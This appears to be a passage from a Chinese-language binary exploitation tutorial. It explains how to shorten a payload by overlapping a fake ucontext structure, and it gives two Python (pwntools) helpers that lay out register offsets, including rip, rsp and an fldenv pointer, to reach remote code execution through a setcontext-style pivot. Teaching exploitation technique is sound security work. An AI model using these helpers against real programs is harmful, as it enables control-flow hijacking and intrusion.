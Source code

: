 

![](image-20231207155109234.png)



这样利用需要发送0x388 bytes的payload，有没有什么方法缩短一下？请看下文。



### 0x01. fx0

注意到在origin方案中，我们设置的context是完整的：

```python
def create_ucontext(src: int, rsp=0, rbx=0, rbp=0, r12=0, r13=0, r14=0, r15=0,
                    rsi=0, rdi=0, rcx=0, r8=0, r9=0, rdx=0, rip=0) -> bytearray:
    b = flat({
        0x28: r8,
        0x30: r9,
        0x48: r12,
        0x50: r13,
        0x58: r14,
        0x60: r15,
        0x68: rdi,
        0x70: rsi,
        0x78: rbp,
        0x80: rbx,
        0x88: rdx,
        0x98: rcx,
        0xA0: rsp,
        0xA8: rip,  # ret ptr
        0xE0: src,  # fldenv ptr
        0x1C0: 0x1F80,  # ldmxcsr
    }, filler=b'\x00', word_size=64)
    return b
```



而其实rdi前的那些寄存器就算不设置也不影响RCE。因此我们可以让context buffer和前面的内容做适当的overlap，只控制rdi后的内容就好了，这样就能省去不少空间。

```python
def lite_context(src: int, rsp=0, rbx=0, rbp=0, rsi=0, rdi=0, rcx=0, rdx=0,
                 rip=0xDEADBEEF) -> bytearray:
    b = flat({
        0x68: rdi,
        0x70: rsi,
        0x78: rbp,
        0x80: rbx,
        0x88: rdx,
        0x98: rcx,
        0xA0: rsp,
        0xA8: rip,  # ret ptr
        0xE0: src,  # fldenv ptr
        # 0x1C0: 0x1F80,  # assume ldmxcsr == 0
    }, filler=b'\x00', word_size=64)[0x68:]
    return b
```
